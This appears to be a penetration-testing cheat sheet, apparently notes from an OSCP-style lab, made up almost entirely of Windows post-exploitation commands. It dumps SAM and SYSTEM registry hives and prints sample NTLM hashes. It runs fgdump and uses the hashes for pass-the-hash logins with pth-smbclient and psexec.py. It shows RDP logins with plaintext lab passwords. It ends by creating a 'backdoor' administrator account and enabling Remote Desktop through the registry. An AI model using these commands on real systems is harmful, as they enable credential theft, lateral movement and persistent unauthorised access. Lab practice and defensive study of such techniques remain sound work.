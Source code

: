 reg save hklm\sam c:\sam
reg save hklm\system c:\system

samdump2 system sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c0e2874fb130015aec4070975e2c6071:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:d0c0896b73e0d1316aeccf93159d7ec0:::

fgdump.exe

pth-smbclient -p 4445 -U alice%aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE //127.0.0.1/c$


copied psexec.py to local folder and updated default port to the forwarded port.

python3 ./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE alice@127.0.0.1 cmd.exe

rdesktop -d xor.com -u daisy -p XorPasswordIsDead17 10.11.1.122 -r clipboard:CLIPBOARD

rdesktop -d xor.com -u daisy -p XorPasswordIsDead17 10.11.1.122 -r clipboard:CLIPBOARD -r disk:share=<path>

rdesktop 192.168.XXX.XX -u OFFSEC\\Allison -p <PASSWORD> -r disk:share=/tmp

xfreerdp --plugin rdpsnd --plugin rdpdr --data disk:home:/home -- -u cfsnspk03 10.129.3.4

xfreerdp /u:cfsnspk03 /v:10.129.3.4 /cert-ignore

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Enable RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

